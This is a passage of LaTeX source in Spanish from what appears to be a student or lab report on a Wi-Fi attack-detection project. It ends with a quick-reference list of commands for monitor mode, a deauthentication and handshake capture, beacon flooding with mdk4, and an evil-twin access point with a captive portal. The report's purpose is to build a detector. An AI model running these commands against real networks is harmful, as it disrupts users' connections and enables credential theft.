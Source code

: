 \documentclass[11pt,a4paper]{article}
\begin{document}
\textbf{Conclusión:} el adaptador Panda Wireless PAU0B AC600 cumple
todos los requisitos técnicos del proyecto. Los tres ataques manuales
documentados son la base que la ESP32 va a automatizar en su firmware, y
que el detector del proyecto va a identificar.

\section{Comandos de referencia rápida}

\begin{lstlisting}
# --- Setup del Panda ---
ethtool -P panda0                       # MAC permanente
lsusb                                   # ver USB
sudo dmesg | grep -i mt76               # ver carga del driver
iw dev                                  # listar interfaces wireless
iw phy phy1 info                        # capacidades del chipset

# --- Activar modo monitor ---
sudo ip link set panda0 down
sudo iw dev panda0 set type monitor
sudo ip link set panda0 up
sudo iw dev panda0 set channel 6

# --- Desactivar modo monitor ---
sudo ip link set panda0 down
sudo iw dev panda0 set type managed
sudo ip link set panda0 up

# --- Captura ---
sudo tcpdump -i panda0 -c 20 -e         # validacion rapida
wireshark                               # captura grafica

# --- Ataque 1: handshake con deauth ---
sudo airodump-ng panda0                                          # escaneo
sudo airodump-ng --bssid <BSSID> -c <CH> -w handshake panda0     # captura enfocada
sudo aireplay-ng --deauth 5 -a <BSSID> -c <CLIENTE> panda0       # deauth
aircrack-ng handshake-01.cap                                     # verificar

# --- Ataque 2: Beacon Flooding ---
sudo mdk4 panda0 b -n ``FakeNet'' -c 6                             # flood con prefijo
sudo mdk4 panda0 b -c 6                                          # flood aleatorio

# --- Ataque 3: Evil Twin ---
sudo hostapd /tmp/eviltwin-hostapd.conf                          # AP falso
sudo dnsmasq -C /tmp/eviltwin-dnsmasq.conf -d                    # DHCP+DNS
sudo python3 servidor.py                                         # portal

# --- Restaurar NetworkManager si se apago ---
sudo systemctl start NetworkManager
nmcli device status
\end{lstlisting}
\end{document}
